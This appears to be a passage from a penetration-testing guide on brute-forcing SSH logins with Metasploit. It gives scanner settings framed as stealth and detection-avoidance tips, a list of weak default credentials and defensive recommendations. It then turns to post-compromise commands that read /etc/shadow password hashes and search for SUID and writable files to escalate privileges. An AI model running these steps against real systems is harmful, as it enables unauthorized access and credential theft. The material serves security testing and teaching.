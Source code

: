 
## Best Practices and Security Considerations

### Optimization Tips

```bash
# For stealth operations
msf6 auxiliary(scanner/ssh/ssh_login) > set BRUTEFORCE_SPEED 2
msf6 auxiliary(scanner/ssh/ssh_login) > set THREADS 3

# For comprehensive testing
msf6 auxiliary(scanner/ssh/ssh_login) > set BLANK_PASSWORDS true
msf6 auxiliary(scanner/ssh/ssh_login) > set USER_AS_PASS true

# Reduce logging and detection
msf6 auxiliary(scanner/ssh/ssh_login) > set VERBOSE false
```

### Common SSH Security Issues

1. **Weak credentials** (admin:admin, root:password)
2. **Default credentials** for services and applications
3. **Password authentication enabled** when keys should be used
4. **Outdated SSH versions** with known vulnerabilities
5. **PermitRootLogin enabled** with password authentication

### Defensive Recommendations

- Implement public key authentication
- Disable password authentication for privileged accounts
- Use fail2ban or similar tools to block brute force attempts
- Regularly update SSH software
- Monitor authentication logs for suspicious activity
- Implement multi-factor authentication

## Post-Compromise Actions

### After Successful SSH Access

```bash
# Once in SSH session:
whoami                    # Check current user
id                        # Check user privileges
sudo -l                   # Check sudo privileges
cat /etc/passwd           # List all users
cat /etc/shadow           # Check password hashes (if accessible)
uname -a                  # System information
```

### Privilege Escalation Checks

```bash
# Common privilege escalation checks
find / -perm -4000 2>/dev/null    # SUID files
find / -perm -2000 2>/dev/null    # SGID files
find / -writable 2>/dev/null      # World-writable files
crontab -l                        # Check cron jobs
```
